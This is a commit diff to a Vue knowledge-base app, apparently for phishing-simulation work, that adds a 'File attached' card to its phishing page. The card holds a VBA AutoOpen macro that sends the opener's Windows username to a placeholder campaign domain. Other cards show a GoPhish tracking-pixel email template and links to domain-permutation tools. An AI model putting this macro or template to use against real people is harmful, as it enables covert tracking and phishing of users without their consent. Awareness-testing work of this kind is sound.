

Before and after one commit to LauraVoid/Kb-project, a Vue app: page /#/phishing in a window 1280 px wide. Shown: the top 952 px of the page. After the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
file attached

```diff
--- a/src/App.vue
+++ b/src/App.vue
@@ -1,5 +1,6 @@
 <template>
   <v-app>
+
     <div class="app-container">
     <header class="app-header">
     <v-app-bar
@@ -10,6 +11,13 @@
       dark
     >
       <div class="d-flex align-center">
+
+        <v-tab
+          to="/"
+          width="100"
+          text
+        >
+        <v-icon>mdi-home</v-icon></v-tab >
 
         <v-tab
           to="/english"
@@ -42,7 +50,6 @@
 
 
 
-
   </v-app>
 </template>
 
--- a/src/components/HelloWorld.vue
+++ b/src/components/HelloWorld.vue
@@ -1,94 +1,22 @@
 <template>
   <v-container>
-    <v-row class="text-center">
-      <v-col cols="12">
-        <v-img
-          :src="require('../assets/logo.svg')"
-          class="my-3"
-          contain
-          height="200"
-        />
-      </v-col>
+    <v-card height="100" flat></v-card>
+    <v-row>
 
-      <v-col class="mb-4">
+
+    <v-col  class="mx-auto" cols="12" sm="12" md="12" lg="12">
         <h1 class="display-2 font-weight-bold mb-3">
-          Welcome to Vuetify
+          Welcome to kb-project
         </h1>
 
         <p class="subheading font-weight-regular">
-          For help and collaboration with other Vuetify developers,
-          <br>please join our online
-          <a
-            href="https://community.vuetifyjs.com"
-            target="_blank"
-          >Discord Community</a>
+          For help and collaboration with other developers
+
         </p>
       </v-col>
+    </v-row>
 
-      <v-col
-        class="mb-5"
-        cols="12"
-      >
-        <h2 class="headline font-weight-bold mb-3">
-          What's next?
-        </h2>
-
-        <v-row justify="center">
-          <a
-            v-for="(next, i) in whatsNext"
-            :key="i"
-            :href="next.href"
-            class="subheading mx-3"
-            target="_blank"
-          >
-            {{ next.text }}
-          </a>
-        </v-row>
-      </v-col>
-
-      <v-col
-        class="mb-5"
-        cols="12"
-      >
-        <h2 class="headline font-weight-bold mb-3">
-          Important Links
-        </h2>
-
-        <v-row justify="center">
-          <a
-            v-for="(link, i) in importantLinks"
-            :key="i"
-            :href="link.href"
-            class="subheading mx-3"
-            target="_blank"
-          >
-            {{ link.text }}
-          </a>
-        </v-row>
-      </v-col>
-
-      <v-col
-        class="mb-5"
-        cols="12"
-      >
-        <h2 class="headline font-weight-bold mb-3">
-          Ecosystem
-        </h2>
-
-        <v-row justify="center">
-          <a
-            v-for="(eco, i) in ecosystem"
-            :key="i"
-            :href="eco.href"
-            class="subheading mx-3"
-            target="_blank"
-          >
-            {{ eco.text }}
-          </a>
-        </v-row>
-      </v-col>
-    </v-row>
-  </v-container>
+    </v-container>
 </template>
 
 <script>
@@ -96,56 +24,7 @@
     name: 'HelloWorld',
 
     data: () => ({
-      ecosystem: [
-        {
-          text: 'vuetify-loader',
-          href: 'https://github.com/vuetifyjs/vuetify-loader',
-        },
-        {
-          text: 'github',
-          href: 'https://github.com/vuetifyjs/vuetify',
-        },
-        {
-          text: 'awesome-vuetify',
-          href: 'https://github.com/vuetifyjs/awesome-vuetify',
-        },
-      ],
-      importantLinks: [
-        {
-          text: 'Documentation',
-          href: 'https://vuetifyjs.com',
-        },
-        {
-          text: 'Chat',
-          href: 'https://community.vuetifyjs.com',
-        },
-        {
-          text: 'Made with Vuetify',
-          href: 'https://madewithvuejs.com/vuetify',
-        },
-        {
-          text: 'Twitter',
-          href: 'https://twitter.com/vuetifyjs',
-        },
-        {
-          text: 'Articles',
-          href: 'https://medium.com/vuetify',
-        },
-      ],
-      whatsNext: [
-        {
-          text: 'Explore components',
-          href: 'https://vuetifyjs.com/components/api-explorer',
-        },
-        {
-          text: 'Select a layout',
-          href: 'https://vuetifyjs.com/getting-started/pre-made-layouts',
-        },
-        {
-          text: 'Frequently Asked Questions',
-          href: 'https://vuetifyjs.com/getting-started/frequently-asked-questions',
-        },
-      ],
+
     }),
   }
 </script>
--- a/src/components/Phishing.vue
+++ b/src/components/Phishing.vue
@@ -1,39 +1,22 @@
 <template>
   <v-container fluid>
-      <v-card
-    height="70"
-    flat
-    ></v-card>
-    <v-card elevation="2"
-        class="mx-auto"
-        max-width="800"
-        outlined
-        shaped>
+    <v-card height="70" flat></v-card>
+    <v-row>
+      <v-col cols="12" sm="12" md="12" lg="6">
+        <v-card elevation="2" class="mx-auto" max-width="800" outlined shaped>
+          <v-card-title> GoPhish </v-card-title>
 
-
-    <v-card-title>
-      GoPhish
-    </v-card-title>
-
-    <v-card-subtitle>
-      Toolkit
-    </v-card-subtitle>
+          <v-card-subtitle> Toolkit </v-card-subtitle>
 
           <v-card-actions>
-      <v-btn
-        color="orange lighten-2"
-        text
-      >
-        Explore
-      </v-btn>
+            <v-btn color="orange lighten-2" text> Explore </v-btn>
 
             <v-spacer></v-spacer>
 
-      <v-btn
-        icon
-        @click="showGo = !showGo"
-      >
-        <v-icon>{{ showGo ? 'mdi-chevron-up' : 'mdi-chevron-down' }}</v-icon>
+            <v-btn icon @click="showGo = !showGo">
+              <v-icon>{{
+                showGo ? "mdi-chevron-up" : "mdi-chevron-down"
+              }}</v-icon>
             </v-btn>
           </v-card-actions>
 
@@ -41,49 +24,59 @@
             <div v-show="showGo">
               <v-divider></v-divider>
 
-        <v-card-text >
-        <div ><a href="https://github.com/gophish/gophish/releases/" target="_blank">Release:</a> enlace de github</div>
-        <div><a href="https://docs.getgophish.com/user-guide/template-reference" target="_blank">Reference: </a> variables para el template</div>
-        <div><a href="https://docs.getgophish.com/user-guide/documentation/landing-pages" target="_blank">Landing Pages: </a> docs gophish</div>
-        <div><a href=" https://documentation.mailjet.com/hc/en-us/articles/360042751854-How-to-exclude-a-link-from-being-tracked-when-click-tracking-is-enabled-" target="_blank">Tracker: </a>mailjet</div>
+              <v-card-text>
+                <div>
+                  <a
+                    href="https://github.com/gophish/gophish/releases/"
+                    target="_blank"
+                    >Release:</a
+                  >
+                  enlace de github
+                </div>
+                <div>
+                  <a
+                    href="https://docs.getgophish.com/user-guide/template-reference"
+                    target="_blank"
+                    >Reference:
+                  </a>
+                  variables para el template
+                </div>
+                <div>
+                  <a
+                    href="https://docs.getgophish.com/user-guide/documentation/landing-pages"
+                    target="_blank"
+                    >Landing Pages:
+                  </a>
+                  docs gophish
+                </div>
+                <div>
+                  <a
+                    href=" https://documentation.mailjet.com/hc/en-us/articles/360042751854-How-to-exclude-a-link-from-being-tracked-when-click-tracking-is-enabled-"
+                    target="_blank"
+                    >Tracker: </a
+                  >mailjet
+                </div>
               </v-card-text>
             </div>
           </v-expand-transition>
         </v-card>
-    <v-card
-    height="50"
-    flat
-    ></v-card>
 
-    <v-card elevation="2"
-        class="mx-auto"
-        max-width="800"
-        outlined
-        shaped>
+      </v-col>
+      <v-col cols="12" sm="12" md="12" lg="6">
+        <v-card elevation="2" class="mx-auto" max-width="800" outlined shaped>
+          <v-card-title> CERTBOT </v-card-title>
 
-    <v-card-title>
-      CERTBOT
-    </v-card-title>
-
-    <v-card-subtitle>
-      Certificado para landing page
-    </v-card-subtitle>
+          <v-card-subtitle> Certificado para landing page </v-card-subtitle>
 
           <v-card-actions>
-      <v-btn
-        color="orange lighten-2"
-        text
-      >
-        Explore
-      </v-btn>
+            <v-btn color="orange lighten-2" text> Explore </v-btn>
 
             <v-spacer></v-spacer>
 
-      <v-btn
-        icon
-        @click="showCert = !showCert"
-      >
-        <v-icon>{{ showCert ? 'mdi-chevron-up' : 'mdi-chevron-down' }}</v-icon>
+            <v-btn icon @click="showCert = !showCert">
+              <v-icon>{{
+                showCert ? "mdi-chevron-up" : "mdi-chevron-down"
+              }}</v-icon>
             </v-btn>
           </v-card-actions>
 
@@ -91,50 +84,43 @@
             <div v-show="showCert">
               <v-divider></v-divider>
 
-        <v-card-text >
-        <div ><a href="https://certbot.eff.org/lets-encrypt/" target="_blank">Certbot instructions</a></div>
-        <div>Generar certificado: </div>
-        <div>certbot certonly --manual --preferred-challenges=dns --email ( EMAIL) --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.(DOMAIN)</div>
+              <v-card-text>
+                <div>
+                  <a
+                    href="https://certbot.eff.org/lets-encrypt/"
+                    target="_blank"
+                    >Certbot instructions</a
+                  >
+                </div>
+                <div>Generar certificado:</div>
+                <div>
+                  certbot certonly --manual --preferred-challenges=dns --email (
+                  EMAIL) --server https://acme-v02.api.letsencrypt.org/directory
+                  --agree-tos -d *.(DOMAIN)
+                </div>
               </v-card-text>
             </div>
           </v-expand-transition>
         </v-card>
+      </v-col>
+
+      <v-col cols="12" sm="12" md="12" lg="6">
 
 
-    <v-card
-    height="50"
-    flat
-    ></v-card>
+        <v-card elevation="2" class="mx-auto" max-width="800" outlined shaped>
+          <v-card-title> Varios </v-card-title>
 
-    <v-card elevation="2"
-        class="mx-auto"
-        max-width="800"
-        outlined
-        shaped>
-
-    <v-card-title>
-      Varios
-    </v-card-title>
-
-    <v-card-subtitle>
-      Herramientas
-    </v-card-subtitle>
+          <v-card-subtitle> Herramientas </v-card-subtitle>
 
           <v-card-actions>
-      <v-btn
-        color="orange lighten-2"
-        text
-      >
-        Explore
-      </v-btn>
+            <v-btn color="orange lighten-2" text> Explore </v-btn>
 
             <v-spacer></v-spacer>
 
-      <v-btn
-        icon
-        @click="showTools = !showTools"
-      >
-        <v-icon>{{ showTools ? 'mdi-chevron-up' : 'mdi-chevron-down' }}</v-icon>
+            <v-btn icon @click="showTools = !showTools">
+              <v-icon>{{
+                showTools ? "mdi-chevron-up" : "mdi-chevron-down"
+              }}</v-icon>
             </v-btn>
           </v-card-actions>
 
@@ -142,49 +128,49 @@
             <div v-show="showTools">
               <v-divider></v-divider>
 
-        <v-card-text >
-        <div ><a href="https://github.com/urbanadventurer/urlcrazy" target="_blank">Urlcrazy: </a> Permutación de dominios</div>
-        <div><a href="https://www.base64-image.de/" target="_blank">Imagen64: </a>Generar la imagen en base 64 </div>
-        <div><a href="https://tmuxcheatsheet.com/" target="_blank">Tmux: </a>Cheat sheet tmux</div>
+              <v-card-text>
+                <div>
+                  <a
+                    href="https://github.com/urbanadventurer/urlcrazy"
+                    target="_blank"
+                    >Urlcrazy:
+                  </a>
+                  Permutación de dominios
+                </div>
+                <div>
+                  <a href="https://www.base64-image.de/" target="_blank"
+                    >Imagen64: </a
+                  >Generar la imagen en base 64
+                </div>
+                <div>
+                  <a href="https://tmuxcheatsheet.com/" target="_blank"
+                    >Tmux: </a
+                  >Cheat sheet tmux
+                </div>
               </v-card-text>
             </div>
           </v-expand-transition>
         </v-card>
+      </v-col>
+      <v-col cols="12" sm="12" md="12" lg="6">
 
-    <v-card
-    height="50"
-    flat
-    ></v-card>
 
-    <v-card elevation="2"
-        class="mx-auto"
-        max-width="800"
-        outlined
-        shaped>
-
-    <v-card-title>
-      Imagen en cuerpo
-    </v-card-title>
+        <v-card elevation="2" class="mx-auto" max-width="800" outlined shaped>
+          <v-card-title> Imagen en cuerpo </v-card-title>
 
           <v-card-subtitle>
             Codigo del email con imagen como cuerpo
           </v-card-subtitle>
 
           <v-card-actions>
-      <v-btn
-        color="orange lighten-2"
-        text
-      >
-        Explore
-      </v-btn>
+            <v-btn color="orange lighten-2" text> Explore </v-btn>
 
             <v-spacer></v-spacer>
 
-      <v-btn
-        icon
-        @click="showCode = !showCode"
-      >
-        <v-icon>{{ showCode ? 'mdi-chevron-up' : 'mdi-chevron-down' }}</v-icon>
+            <v-btn icon @click="showCode = !showCode">
+              <v-icon>{{
+                showCode ? "mdi-chevron-up" : "mdi-chevron-down"
+              }}</v-icon>
             </v-btn>
           </v-card-actions>
 
@@ -192,13 +178,16 @@
             <div v-show="showCode">
               <v-divider></v-divider>
 
-        <v-card-text >
-        <div >
-
+              <v-card-text>
+                <div>
                   <div><span>&lt;html&gt;</span></div>
                   <div><span>&lt;body&gt;</span></div>
-               <div><span>&lt;a href=&quot;{ {.URL}}&quot; rel="notrack"&gt;</span></div>
-               <div><span>&lt;img src="" /&gt;</span></div>
+                  <div>
+                    <span
+                      >&lt;a href=&quot;{ {.URL}}&quot; rel="notrack"&gt;</span
+                    >
+                  </div>
+                  <div><span>&lt;img src="[BASE64]" /&gt;</span></div>
                   <div><span>&lt;br&gt;</span></div>
                   <div><span>&lt;br&gt;</span></div>
                   <div><span>&lt;br&gt;</span></div>
@@ -206,15 +195,96 @@
                   <div><span>&lt;br&gt;</span></div>
                   <div><span>&lt;br&gt;</span></div>
                   <div><span>&lt;br&gt;</span></div>
-               <div><span> &lt;p&gt; &lt;img src="{ {.TrackingURL}}" rel="notrack"/&gt; &lt;/p&gt;</span></div>
+                  <div>
+                    <span>
+                      &lt;p&gt; &lt;img src="{ {.TrackingURL}}"
+                      rel="notrack"/&gt; &lt;/p&gt;</span
+                    >
+                  </div>
                   <div><span>&lt;/body&gt;</span></div>
                   <div><span>&lt;/html&gt;</span></div>
-
                 </div>
               </v-card-text>
             </div>
           </v-expand-transition>
         </v-card>
+      </v-col>
+
+      <v-col cols="12" sm="12" md="12" lg="6">
+
+        <v-card elevation="2" class="mx-auto" max-width="800" outlined shaped>
+          <v-card-title> File attached </v-card-title>
+
+          <v-card-subtitle> Phishing con archivo adjunto </v-card-subtitle>
+
+          <v-card-actions>
+            <v-btn color="orange lighten-2" text> Explore </v-btn>
+
+            <v-spacer></v-spacer>
+
+            <v-btn icon @click="showAdj = !showAdj">
+              <v-icon>{{
+                showAdj ? "mdi-chevron-up" : "mdi-chevron-down"
+              }}</v-icon>
+            </v-btn>
+          </v-card-actions>
+
+          <v-expand-transition>
+            <div v-show="showAdj">
+              <v-divider></v-divider>
+
+              <v-card-text>
+                <div>
+                  <b>Introducción:</b>
+                  <div>Para realizar el tracking de un archivo, la macro se encarga de realizar una petición GET al dominio de la campaña cuando el usuario abre el archivo. En algunos casos el usuario deberá habilitar las macros para que la petición se realice en otros se ejecutara automaticamente, todo depende de la configuración que tenga el usuario para su ejecucción.</div>
+                  <br>
+                  <b>Ejecucción:</b>
+                  <div>Para realizarla se deben lanzar 2 campañas donde la primera cuenta con unico usuario (cuenta propia). De esta se obtendrá el Rid (cvs: raw events), este Rid se utiliza para realizar el tracking. La segunda campaña corresponde a la campaña que se realiza con el cliente</div>
+                  <div>Una vez se ejecuta la macro, para visualizar las peticiones, se accede a el cvs de raw events (campaña 1) donde cada GET tendrá la <b>dirección ip</b> y el <b>username</b> de la maquina donde se ejecutó el archivo. Con estos datos se realiza un cruce con la información de la campaña 2 (cliente) para identificar que usuarios ejecutaron la macro. </div>
+                  <br>
+                  <b>Parametros:</b>
+                  <div>La macro cuenta con 2 parametros</div>
+                  <div><b>DOMAIN:</b>Dominio de la campaña</div>
+                  <div><b>RID:</b>Rid de la primer campaña con unico usuario</div>
+                  <div></div>
+                  <br>
+                   <b
+                    >Codigo vba:
+                  </b>
+                  <br>
+
+                    <div>Sub AutoOpen()</div>
+
+                     <div> &nbsp; Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")</div>
+                      <div>&nbsp; UserNameId = Environ("USERNAME")</div>
+                      <div><span>&nbsp; URL = "http://[DOMAIN]/?rid=[RID]&amp;username" &amp; UserNameId</span> </div>
+                      <div>&nbsp; objHTTP.Open "GET", URL, False</div>
+                      <div>&nbsp; objHTTP.send ("")</div>
+
+                    <div>End Sub</div>
+
+                </div>
+                <br>
+                <b>Nota:</b>
+                <div>La función debe llamar AutoOpen para que se ejecute automaticamente una vez se abra el archivo. El archivo puede ser guardado en formato .docm o .doc</div>
+                <br>
+                  <b>Referencias:</b>
+                <div>
+                  <a href="https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/environ-function" target="_blank"
+                    >Environ function: </a
+                  >Documentación sobre función environ
+                </div>
+                <div>
+                  <a href="https://gist.github.com/RebeccaWhit3/5dad8627b8227142e1bea432db3f8824" target="_blank"
+                    >Environment Variables in Windows: </a
+                  >Lista de variables de entorno en windows
+                </div>
+              </v-card-text>
+            </div>
+          </v-expand-transition>
+        </v-card>
+      </v-col>
+    </v-row>
   </v-container>
 </template>
 
@@ -222,10 +292,11 @@
 export default {
   data() {
     return {
-         showGo: true,
-         showCert: true,
-         showTools: true,
-         showCode: true,
+      showGo: false,
+      showCert: false,
+      showTools: false,
+      showCode: false,
+      showAdj: false,
     };
   },
 };
--- a/src/components/Table_spanish.vue
+++ b/src/components/Table_spanish.vue
@@ -205,7 +205,6 @@
         itemsPerPage: 12,
         sortBy: 'name',
         visible: false,
-        el: "#app",
         keys: [
           'Name',
           'Type',
--- a/src/main.js
+++ b/src/main.js
@@ -6,6 +6,7 @@
 import Table_spanish from './components/Table_spanish'
 import Issue from './components/Issue'
 import Phishing from './components/Phishing'
+import HelloWorld from './components/HelloWorld'
 
 const routes =[
   {
@@ -28,6 +29,10 @@
     path: '/phishing',
    component: Phishing,
   },
+  {
+    path: '/',
+   component: HelloWorld,
+  },
 
 ]
 
```
Lines whose indentation alone changed are shown as unchanged.
